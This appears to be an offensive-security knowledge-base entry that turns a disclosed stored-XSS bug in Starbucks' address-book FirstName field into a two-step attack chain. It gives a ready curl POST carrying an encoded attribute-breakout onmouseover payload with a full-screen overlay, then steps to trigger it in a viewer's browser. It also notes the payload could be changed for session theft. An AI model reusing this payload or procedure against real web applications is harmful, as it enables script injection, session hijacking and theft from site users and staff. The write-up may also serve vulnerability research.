

---
tags:
  - xss
  - stored-xss
  - javascript
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-post-starbucks-address-xss]]'
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Inject-Stored-XSS-in-Address-FirstName]]'
  - '[[procedures/Trigger-Stored-XSS-by-Viewing-Profile]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
description: >-
  A stored XSS vulnerability in the Address.FirstName parameter of Starbucks'
  user profile allows injection of JavaScript payloads that execute when any
  user or admin views the affected address book, enabling session hijacking,
  phishing, or data theft.
skill_level: intermediate
impact_level: high
id: c3837a71-5dbd-4734-b687-6ae2efd7e8eb
created_at: '2025-12-14T03:16:37.338Z'
updated_at: '2025-12-14T03:16:37.338Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Stored XSS in Starbucks Address Book via FirstName Parameter

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl or browser)

### Target Environment

- Web application: Starbucks.com user profile
- Required services/ports: HTTPS on port 443
- Network access requirements: Internet access to starbucks.com

### Initial Access Requirements

- Valid Starbucks user account with ability to add addresses
- Network position: External user
- Prior access needed: Logged-in session

## Detailed Attack Procedures

### Step 1: Inject Malicious Payload
procedure: [[procedures/Inject-Stored-XSS-in-Address-FirstName]]

**Objective**: Submit a new address with a JavaScript payload in the Address.FirstName parameter to store the XSS in the user's profile.

**Instructions**: Use [[commands/curl-post-starbucks-address-xss]] to send a POST request to the AddressSave endpoint with the crafted payload. The payload breaks out of the HTML attribute by closing the quote and injecting an onmouseover event.

```bash
curl -X POST 'https://www.starbucks.com/account/profile/AddressSave' \
  -H 'Cookie: your-session-cookie-here' \
  -d 'Address.FirstName=z%22%20onmouseover%3D%22alert(%27Hackerone%27)%22%20style%3D%22position%3Afixed%3Bleft%3A0%3Btop%3A0%3Bwidth%3A9999px%3Bheight%3A9999px%3B%22%3E' \
  -d 'other-params-as-needed'
```

**Expected Output**: HTTP 200 or redirect indicating successful address save, with no errors.

**Success Indicators**:
- Address saved without rejection
- No client-side length validation errors (server bypasses 15-char limit)

### Step 2: Trigger Stored XSS
procedure: [[procedures/Trigger-Stored-XSS-by-Viewing-Profile]]

**Objective**: View the user profile to render the stored address and trigger the XSS payload execution.

**Instructions**: Log in to the Starbucks account (or use an admin/support account) and navigate to the profile page where addresses are displayed. Hover over the injected element to activate the onmouseover event.

```bash
# No command needed; use browser navigation
# Or simulate with curl to fetch the page (payload executes client-side)
curl -H 'Cookie: your-session-cookie-here' 'https://www.starbucks.com/account/profile'
```

**Expected Output**: Page loads, and hovering triggers alert('Hackerone') or arbitrary JS execution.

**Success Indicators**:
- JavaScript alert or payload executes
- Potential for further actions like session theft if payload is modified

## Attack Chain Summary

### Key Achievements

1. Successful injection of stored XSS payload bypassing server-side filtering
2. Arbitrary JavaScript execution in viewer context (user or admin)
3. Demonstration of high-impact risks like session hijacking or data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2024-01-01T00:00:00Z*
